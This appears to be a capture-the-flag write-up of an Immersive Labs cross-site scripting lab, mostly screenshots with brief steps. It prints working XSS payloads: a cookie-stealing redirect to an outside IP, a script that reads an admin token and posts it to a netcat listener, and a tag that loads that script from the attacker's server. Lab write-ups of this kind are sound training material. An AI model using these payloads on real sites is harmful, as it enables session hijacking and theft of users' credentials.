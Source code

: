 ```yaml
---
date: 2025-04-27
categories: [CTF, ImmersiveLabs]
title: "IML - Cross-Site Scripting: Ep.6 – Further Exploitation"
tags: ['privilege escalation', 'python', 'rce', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Cross-Site Scripting Ep.6 – F - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.6 – Further Exploitation


![image1](../resources/81e9facdcd524216bd9db80ea0e500c3.png)

```java
<script>document.location="http://10.102.179.231:8000/?cookie="+document.cookie;</script>
```

![image2](../resources/3e99d7ccbbe9401894e1e7828e79bdfa.png)

- **<u>Token and username received</u>**


![image3](../resources/c892c30a412a46f3948a7fcd73b39bc4.png)

- Create script (script.js)


![image4](../resources/014019cde821452b93fe0722e5ff82f9.png)

```javascript
var sensitive_data = new XMLHttpRequest();
sensitive_data.open("GET", "/admin/token", true);
sensitive_data.responseType = "text";

sensitive_data.onload = () => {
    if (sensitive_data.status >= 200 && sensitive_data.status < 400) {
        var body = sensitive_data.responseText;
        var send_data = new XMLHttpRequest();
        send_data.open("POST", "http://<IP>:<KALI_NC_PORT>", true);
        send_data.send("page_body=" + body);
    } else {
        // do nothing
    }
};

sensitive_data.send();

```


- Change IP and Port

- Run Python server in same dir as script


![image5](../resources/523d0853f9204c1ba8a55cdd0cdfba1f.png)

- Set up nc listener on port specified in script


![image6](../resources/6b72b2076e2340fd8b4c74640bacaccd.png)

- Send email with the src tag (kali IP and the Port of the python server)


![image7](../resources/0f50e13dc0e248338bfe7cca969c95b5.png)

```javascript
<script src="http://<kali IP>:<kali port>/script.js"></script>
```

- *Sometimes need to reset the machine on this one cus it doesn’t work first time*


![image8](../resources/87e5d6bb27ac4008ab946805aca5235a.png)
